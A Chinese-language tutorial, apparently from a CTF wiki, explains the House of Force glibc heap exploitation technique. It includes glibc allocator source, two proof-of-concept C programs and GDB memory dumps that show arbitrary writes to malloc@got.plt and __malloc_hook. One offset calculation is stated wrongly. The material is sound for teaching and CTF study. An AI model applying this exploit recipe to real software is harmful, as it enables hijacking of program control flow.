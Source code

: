 # House Of Force

## 介绍
House Of Force属于House Of XXX系列，House Of XXX指的是2004年一篇名为《The Malloc Maleficarum-Glibc Malloc Exploitation Techniques》的文章中提出的一系列针对glibc漏洞的利用方法。<br>
但是由于年代久远《The Malloc Maleficarum》中提出的大多数利用在今天都不能奏效，我们现在所指的House Of XXX利用相比2004年文章中写的已有较大的不同。但是《The Malloc Maleficarum》依然是一篇推荐阅读的文章，你可以在这里读到它的原文：
https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt

## 原理
House Of Force是一种堆溢出的利用方法，当然能够通过House Of Force进行利用的可能不只是堆溢出漏洞。如果一个堆(heap based)漏洞想要通过House Of Force方法进行利用，需要以下条件：

* 1.用户能够以溢出等方式控制到top chunk的size域
* 2.用户能够自由的控制堆分配尺寸的大小

House Of Force产生的原因在于glibc对top chunk的处理，根据前面堆数据结构部分的知识我们得知，进行堆分配时会从top chunk中分割出相应的大小作为堆块的空间，因此top chunk的位置会发生上下浮动以适应堆内存分配和释放。

HOF的利用思想可以概括为一句话：
当使用top chunk分配堆块的size值是由用户控制的任意值时会发生什么？<br>
答案是，可以使得top chunk移动到我们想要达到的任何位置，这就相当于一次任意地址写。
<br>
然而在glibc中，会对用户请求的大小和top chunk现有的size进行验证
```
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足chunk的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```
然而，如果可以篡改size的大小为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制top chunk size域的漏洞。

```
(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)
```
一般的做法是把top chunk的size改为-1，因为在进行比较时会把size转换成无符号数(如上)，因此-1会解释成为一个大数，就可以使得所有64位值都能通过验证。

```
remainder      = chunk_at_offset(victim, nb);
av->top        = remainder;

/* Treat space at ptr + offset as a chunk */
##define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))
```
之后这里会把top指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意址(write-anything-anywhere)



## 简单示例
在学习完HOF的原理之后，我们这里通过一个示例来说明HOF的利用
这个例子的目标是通过HOF来篡改`malloc@got.plt`实现劫持程序流程

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

首先，我们分配一个0x10字节大小的块

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
之后把top chunk的size改为0xffffffffffffffff，在题目中这一步可以通过堆溢出等漏洞来实现。
因为-1在补码中是以0xffffffffffffffff表示的，所以我们直接赋值-1就可以。

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0xffffffffffffffff <=== top chunk size域被更改
0x602030:	0x0000000000000000	0x0000000000000000
```
注意此时的top chunk位置，当我们进行下一次分配的时候就会更改top chunk的位置到我们想要的地方

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000602020 <=== top chunk此时一切正常
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
接下来我们执行`malloc(-4120);`，-4120是怎么得出的呢？<br>
首先明确要写入的目的地址，这里我编译的情况0x601020是`malloc@got.plt`的地址

```
0x601020:	0x00007ffff7a91130 <=== malloc@got.plt
```
之后明确当前top chunk的地址，根据前面描述，top chunk位于0x602020<br>
所以我们使用0x601020-0x602020-0x10=-4120,之所以要减去0x10是为了刨除chunk header的偏移<br>
当调用`malloc(-4120)`之后，我们可以观察到top chunk被抬高到我们想要的位置

```
0x7ffff7dd1b20 <main_arena>:\	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000601010 <=== 可以观察到top chunk被抬高
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们分配的块就会出现在0x601010+0x10的位置，也就是0x601020可以更改got表中的内容了。

## 简单示例2
在上一个示例中我们演示了通过HOF使得top chunk的指针减小来修改位于其上面(低地址)的got表中的内容，<br>
但是HOF其实也可以使得top chunk指针增大来修改位于高地址空间的内容，我们通过这个示例来演示这一点

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```
我们可以看到程序代码与简单示例1基本相同，除了第二次malloc的size有所不同。<br>
这次我们的目标是malloc_hook，我们知道malloc_hook是位于libc.so里的全局变量值，首先查看内存布局

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/t1
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/t1
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/t1
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```
可以看到heap的基址在0x602000，而libc的基址在0x7ffff7a0d000，因此我们需要通过HOF扩大top chunk指针的值来实现对malloc_hook的写。
<br>
首先由调试得知__malloc_hook的地址位于0x7ffff7dd1b10，采取计算0x7ffff7dd1b00-0x602020-0x10=140737345551056<br>
经过这次malloc之后，我们可以观察到top chunk的地址被抬高到了0x00007ffff7dd1b00

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x00007ffff7dd1b00 <=== top chunk
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们只要再次分配就可以控制0x7ffff7dd1b10处的__malloc_hook值了

```
rax = 0x00007ffff7dd1b10
    
0x400562 <main+60>        mov    edi, 0x10
0x400567 <main+65>        call   0x400410 <malloc@plt>
```

## 小总结
在这一节中讲解了House Of Force的原理并且给出了两个利用的简单示例，通过观察这两个简单示例我们会发现其实HOF的利用要求还是相当苛刻的。

* 首先，需要存在漏洞使得用户能够控制top chunk的size域。
* 其次，需要用户能自由控制malloc的分配大小
* 第三，分配的次数不能受限制

其实这三点中第二点往往是最难办的，CTF题目中往往会给用户分配堆块的大小限制最小和最大值使得不能通过HOF的方法进行利用。



